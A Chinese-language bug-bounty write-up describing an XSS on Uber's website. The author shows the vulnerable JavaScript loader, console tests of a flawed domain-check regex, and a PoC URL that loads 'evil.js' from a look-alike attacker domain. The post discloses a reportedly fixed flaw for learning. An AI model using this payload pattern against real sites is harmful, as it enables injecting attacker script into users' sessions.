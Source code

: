 title: "[BBP系列一] 人生第一个值钱的XSS漏洞"
date: 2016-09-10 20:40:17
tags: ["安全", "XSS", "BBP"]

---

## 前言

两个月前的一天，在Hackerone上看了不少报告之后的我跃跃欲试，不自量力地给自己定下一个目标：一定要找一个能够获得Bounty的漏洞！然后，前后差不多花了三天的时候，找到了Uber网站的一个XSS漏洞。今早也顺利地收获了人生的第一笔奖金，$7000。接下来就分享一下这个漏洞吧。

## 漏洞代码

在看Uber的网站前端JS代码的时候，发现有如下的一段代码：

```js
(function() {
    var k = document.createElement('script');  // 创建script标签
    k.type = 'text/javascript';
    k.async = true;
    k.setAttribute("data-id", u.pubid);
    k.className = "kxct";
    k.setAttribute("data-version", "1.9");

    // 从location.href参数中读取kxsrc
    var m, src = (m = location.href.match(/\bkxsrc=([^&]+)/)) && decodeURIComponent(m[1]);

    // 检查kxsrc参数的值是否满足正则，如果满足则加载，否则加载默认的JS文件 
    k.src = /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test(src) ? src : src === "disable" ? "" : (location.protocol === "https:" ? "https:" : "http:") + "//cdn.krxd.net/controltag?confid=" + u.pubid;
    var s = document.getElementsByTagName('script')[0];
    s.parentNode.insertBefore(k, s);
})();
```

目前代码还能在：https://tags.tiqcdn.com/utag/uber/main/prod/utag.273.js 看到，不过修复之后相应的网站已经不会加载这个代码文件了。 通过阅读上面这段代码，我们能够知道参数是`kxsrc`是可以被用户控制的，而且如果满足一定条件，该参数所指定的js文件就会被加载。

## 漏洞分析
咋一看，这段代码似乎没有什么问题：JS文件只能是`krxd.net`域下的文件。然而，在正则表达式里：`.`代表的意思是匹配任意字符。我们来做一个简单的实验，F12打开浏览器的调试窗口：

```js
> /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.bkrxd.net/controltag/evil.js')
< true
> /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.ckrxd.net/controltag/evil.js')
< true
> /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.dkrxd.net/controltag/evil.js')
< true
>  /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.ekrxd.net/controltag/evil.js')
< true
>  /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://a.fkrxd.net/controltag/evil.js')
< true
>  /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://aafkrxd.net/controltag/evil.js')
< true
>  /^https?:\/\/([a-z0-9-.]+.)?krxd.net(:\d{1,5})?\/controltag\//i.test('https://abfkrxd.net/controltag/evil.js')
< true
```

![](http://ww3.sinaimg.cn/large/7184df6bgw1f7otlqoccoj211i03xjsu.jpg)

## PoC

买个域名！部署一下HTTPS！写一个简单的JS文件！添加到参数里！Bingo，就是这么神奇！
```
https://www.uber.com/?exp=hp-c&kxsrc=https%3A%2F%2Fwww.akrxd.net%2Fcontroltag%2Fevil.js
```

![](http://ww4.sinaimg.cn/large/7184df6bgw1f7otuv4e5hg20sb0k6x6p.gif)

思考题: 写这段正则判断代码的人应该还希望限制路径，但其实很容易就可以被绕过，怎么绕呢？